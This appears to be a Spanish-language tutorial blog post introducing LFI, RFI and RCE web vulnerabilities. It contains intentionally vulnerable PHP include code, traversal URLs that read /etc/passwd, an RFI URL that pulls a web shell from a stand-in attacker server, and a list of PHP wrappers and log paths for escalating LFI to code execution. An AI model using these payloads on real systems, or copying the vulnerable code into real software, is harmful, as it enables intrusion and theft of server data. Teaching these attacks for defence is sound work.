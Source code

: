 ```yaml
---
layout: post
title:  "Aprendiendo a identificar los diferentes ataques basicos a nivel Web"
description: Aprendiendo sobre las Vulnerabilidades " LFI // RFI // RCE "
tags: Web Attacks
---
```

Empezaremos por aprender las principales Vulnerabilidades a nivel Web
  
# ~ LFI ~   Local File Inclusion

1.- La vulnerabilidad de Local File Inclusion se produce como consecuencia de un fallo en la programación de la página, filtrando inadecuadamente lo que se incluye al usar funciones en PHP para incluir archivos desde una variable.

-Ejemplo 1
Para poder corroborar si un sitio es vulnerable, se puede colocar un valor ilógico a la variable. 
En nuestro ejemplo tenemos: "http://localhost/index.php?page=" donde se coloca un valor, en este caso http://localhost/index.php?page=78se3, algo aleatorio que no se encuentre registrado.
Si arroja un error como Warning: main()… o Warning: include()… o similar entonces es probable que sea vulnerable a RFI o LFI

~ Archivo vulnerable de php mediante LFI ~ 
{% highlight php %}
<?php
include $_GET[‘pagina’];
?>
{% endhighlight %}

-Ejemplo 2
Nos montamos un servidor apache ($service apache2 start) que almacene dos archivos:
```
* example.php
* file.txt
```
Donde example.php seria:
{% highlight php %}
<?php
    $file = $_GET['filename'];
    include($file);
?>
{% endhighlight %}

Y file.txt:
``` 
Por Aqui Puede Haber Un LFI
```
Nosotros apuntando a nuestro servidor podriamos ya listar archivos Locales del servidor, atraves de la variable "filename"

```bash
http://localhost/example.php?filename=file.txt
Por Aqui Puede Haber Un LFI
http://localhost/example.php?filename=/etc/passwd
listariamos el archivo /etc/passwd
Esto es un LFI
```

<a href="https://ibb.co/gjNZPZr"><img src="https://i.ibb.co/xCWqfq2/url-LFI.png" alt="url-LFI.png" border="0" /></a>

Supongamos que el desarrollador nos indica en donde debe encontrarse el archivo a buscar a traves de una ruta:

{% highlight php %}
<?php
    $file = $_GET['filename'];
    include("/var/www/html/" . $file);
?>
{% endhighlight %}

```bash
http://localhost/example.php?filename=../../../../../etc/passwd
Y volveriamos a listar el archivo /etc/passwd
```


# ~ RFI ~   Remote File Inclusion
La vulnerabilidad de Remote File Inclusion se produce cuando:
Una página vulnerable que presente un aspecto similar a este en su URL:   " http://[servidor_victima]/index.php?page=plantilla.html "
El atacante (Nosotros) podriamos obtener una Shell en el servidor vulnerable mediante lo siguiente:
http://[servidor_victima]/index.php?page=http://[servidor_atacante]/shell.txt&&cmd=ls

Pudiendo contener el archivo shell.txt cualquier código, por ejemplo:
{% highlight php %}
<?php
  system($cmd);
?>
{% endhighlight %}

# ~ RCE ~   Remote File Inclusion
Algunas formas comunes de pasar de un LFI a RCE:
Ahora, por lo general, cuando encuentro una inclusión de archivo local o LFI, primero trato de convertirlo en una ejecución remota de código.

> Trucos para convertir su LFI en RCE mediante el ~ Uso de formularios / funciones de carga de archivos:
```bash
Usando el contenedor de PHP  wait: // comando
Usando el archivo PHP wrapper  php: //
Usando el contenedor PHP  php: // filter
Usando PHP      input: // stream
Usando datos: // texto / plano; base64, comando
Usando / proc / self / environment
Usando / proc / self / fd
```
>Las siguientes Rutas importantes:
```bash
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/vsftpd.log
/var/log/sshd.log
/var/log/mail
``` 
